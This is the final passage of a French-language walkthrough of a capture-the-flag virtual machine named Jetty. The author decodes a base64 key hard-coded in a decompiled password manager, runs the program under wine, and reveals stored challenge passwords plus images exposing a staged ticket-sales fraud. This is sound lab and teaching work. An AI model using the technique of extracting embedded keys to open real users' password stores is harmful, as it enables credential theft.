# Decompiled from: Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
# [GCC 9.3.0]
# Embedded file name: password_keeper.py
```

Le fichier ```password_keeper.py``` contient le sésame ```key = 'N2FlMjE4ZmYyOTI4ZjZiMg=='``` permettant d'accéder aux tableurs protégés.

```console
root@kali:~# echo -n "N2FlMjE4ZmYyOTI4ZjZiMg==" | base64 -d
7ae218ff2928f6b2

root@kali:~# wine password_keeper.exe
--snip--
Welcome to the best password keeper ever!
__        __         _                _  __                         
\ \      / /__  __ _| | ___   _      | |/ /___  ___ _ __   ___ _ __ 
 \ \ /\ / / _ \/ _` | |/ / | | |_____| ' // _ \/ _ \ '_ \ / _ \ '__|
  \ V  V /  __/ (_| |   <| |_| |_____| . \  __/  __/ |_) |  __/ |   
   \_/\_/ \___|\__,_|_|\_\__,  |     |_|\_\___|\___| .__/ \___|_|   
                          |___/                    |_|   

Choose what you want to do: 
1) See your passwords!
2) Generate a cipher-password
3) Close
Insert your selection here --> 1

Showing content of your secret passwords...

Insert password: 7ae218ff2928f6b2

Tag: instagram Password: S3x1B0y
Tag: facebook Password: M4rK1sS0s3X1
Tag: Accountabilty_not_cooked Password: co8oiads13kt
Tag: MoneyBalance Password: C5Y0wzGqq4Xw8XGD
Tag: Pending_to_erase Password: 1hi2ChHrtkQsUTOc
Press any button to return to the menu...
```

Le fichier ```Accountabilty_not_cooked.jpg``` au nom équivoque contient la comptabilité non falsifiée.



Le fichier ```Pending_to_erase.jpg``` contient la mention ```Erase read lines to generate the final report to Mr Morris``` et sept lignes marquées de rouge qui ont effectivement disparu de la comptabilité. Le rapport ```AccountabiltyReportMorning-1112018.xlsx``` mentionnait 79 billets vendus pour un montant de 1100 euros, alors qu'il y en a eu 86 en réalité. L'employé incriminé aurait donc détourné l'équivalent de 140 euros (7 billets adultes) au mois de novembre 2018.



Et il a du souci à se faire, si l'on en croit le fichier ```MoneyBalance.jpg``` car la fraude remonterait au moins à janvier 2018.



C'est la fin de ce _walkthrough_, merci à [MrSquid](https://twitter.com/mrsquid25) pour cette VM Jetty très sympa !

C'est une excellente idée d'avoir ajouté un challenge supplémentaire après l'élévation de privilèges ```user -> root```. 